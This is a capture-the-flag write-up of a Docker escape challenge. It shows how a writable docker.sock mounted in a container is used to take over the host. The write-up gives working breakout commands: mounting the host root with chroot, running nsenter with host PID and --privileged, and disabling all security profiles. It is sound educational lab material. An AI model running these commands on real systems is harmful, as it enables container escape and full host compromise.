

# ExitTheCapsule


## Category

> System

## Description

> Arriverez-vous à vous échapper du conteneur pour trouver le flag ?

## Link

*Access to a Docker through Web SSH*

## Difficulty

**EASY** - 50 points

- Author: **Sysdream**
---



## Write up

*NB: I am writing this WU after the CTF was closed, and therefore, and no more access to machines.*

### What's a sock ?

I already did this kind of Docker Escape/Breakout before, using this [Hacktricks book](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).

This time, running all the command and tests it recommends, without thinking a little, didn't work.

The very first entry point, was to look for **mounted points**, using `df` or `mount -l` for example, to recover access from host.


In Linux, a mount point is a directory where an additional file system is attached, integrating it into the overall file system hierarchy. In the context of containers, mounting points are locations inside the container's file system where external resources, such as volumes or host directories, are attached, enabling data sharing between the container and the host. This facilitates data persistence and sharing between the container and its host environmen

I cannot share it or describe all of them here, but I know that one of the mounted point was suspect. There was a ``/run/docker.sock`` mounted on a `tmpfs` filesystem, with write and read permissions.

In other words: **we had access to the docker socket of the host**.


The docker.sock file is a Unix socket that allows communication between the Docker daemon and Docker client or other Docker-related tools. 


I was then looking to find how to exploit it, using docker command.

### Docker to escape Docker

First step was to install docker inside the container (🤯) using these steps:
```bash
wget https://get.docker.com -O install.sh
chmod +x install.sh
./install.sh
```

Now that we have docker, I was able to use [this trick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape) from the book above:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:16.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

And then, we magically were controlling the host!

The Last step was to find the flag, using this command, for example:

```bash
# Find all the files that contains 'flag' from the root / and do not output errors (2)
find / -name "*flag*" 2>/dev/null
```

Lots of results, but a ``/var/flag.txt`` kept my attention.


:triangular_flag_on_post: `MALICE{I Didn't Save The Flag Lol}`


